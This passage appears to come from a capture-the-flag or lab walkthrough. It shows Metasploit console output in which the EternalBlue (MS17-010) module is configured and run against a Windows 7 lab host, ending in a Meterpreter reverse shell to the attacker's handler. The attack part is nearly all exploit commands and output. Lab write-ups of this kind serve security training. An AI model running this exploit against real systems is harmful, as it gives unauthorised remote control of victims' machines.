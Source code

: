 **OUTPUT**
```bash
msf5 > use 2
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp

msf5 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

Name           Current Setting  Required  Description
----           ---------------  --------  -----------
RHOSTS                        **yes**       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT          445              yes       The target port (TCP)
SMBDomain      .                no        (Optional) The Windows domain to use for authentication
```

4. Run the exploit and we are in.

**OUTPUT**

```bash
[*] Started reverse TCP handler on 10.2.44.183:9999
[*] 10.10.190.61:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.190.61:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.190.61:445      - Scanned 1 of 1 hosts (100% complete)    
[*] 10.10.190.61:445 - Connecting to target for exploitation.
[+] 10.10.190.61:445 - Connection established for exploitation.
[+] 10.10.190.61:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.190.61:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.190.61:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.190.61:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.190.61:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.190.61:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.190.61:445 - Trying exploit with 17 Groom Allocations.
[*] 10.10.190.61:445 - Sending all but last fragment of exploit packet
[*] 10.10.190.61:445 - Starting non-paged pool grooming
[+] 10.10.190.61:445 - Sending SMBv2 buffers
[+] 10.10.190.61:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
*] 10.10.190.61:445 - Sending final SMBv2 buffers.
[*] 10.10.190.61:445 - Sending last fragment of exploit packet!
[*] 10.10.190.61:445 - Receiving response from exploit packet
[+] 10.10.190.61:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.190.61:445 - Sending egg to corrupted connection.
[*] 10.10.190.61:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.190.61
[*] Meterpreter session 1 opened (10.2.44.183:9999 -> 10.10.190.61:49169) at 2020-10-31 03:08:45 -0400
[+] 10.10.190.61:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.190.61:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.190.61:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```
